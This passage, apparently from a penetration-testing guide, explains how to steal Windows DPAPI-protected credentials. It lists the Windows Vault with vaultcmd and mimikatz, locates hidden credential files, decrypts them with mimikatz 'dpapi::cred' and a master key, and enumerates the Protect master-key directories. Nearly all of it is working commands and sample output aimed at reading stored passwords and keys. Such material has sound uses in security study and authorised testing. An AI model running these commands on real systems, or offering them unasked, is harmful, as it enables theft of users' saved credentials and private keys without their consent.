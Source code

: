 ## List Vault

```bash
# From cmd
vaultcmd /listcreds:"Windows Credentials" /all

# From mimikatz
mimikatz vault::list
```

## Credential Files

The **credentials files protected by the master password** could be located in:

```
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

Get credentials info using mimikatz `dpapi::cred`, in the response you can find interesting info such as the encrypted data and he guidMasterKey.

```bash
mimikatz dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\28350839752B38B238E5D56FDD7891A7

[...]
guidMasterKey      : {3e90dd9e-f901-40a1-b691-84d7f647b8fe}
[...]
pbData             : b8f619[...snip...]b493fe
[..]
```

You can use **mimikatz module** `dpapi::cred` with the appropiate `/masterkey` to decrypt:

```
dpapi::cred /in:C:\path\to\encrypted\file /masterkey:<MASTERKEY>
```

## Master Keys

The DPAPI keys used for encrypting the user's RSA keys are stored under `%APPDATA%\Microsoft\Protect\{SID}` directory, where {SID} is the [**Security Identifier**](https://en.wikipedia.org/wiki/Security\_Identifier) **of that user**. **The DPAPI key is stored in the same file as the master key that protects the users private keys**. It usually is 64 bytes of random data. (Notice that this directory is protected so you cannot list it using`dir` from the cmd, but you can list it from PS).

```bash
Get-ChildItem C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem C:\Users\USER\AppData\Local\Microsoft\Protect
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\
Get-ChildItem -Hidden C:\Users\USER\AppData\Roaming\Microsoft\Protect\{SID}
Get-ChildItem -Hidden C:\Users\USER\AppData\Local\Microsoft\Protect\{SID}
```
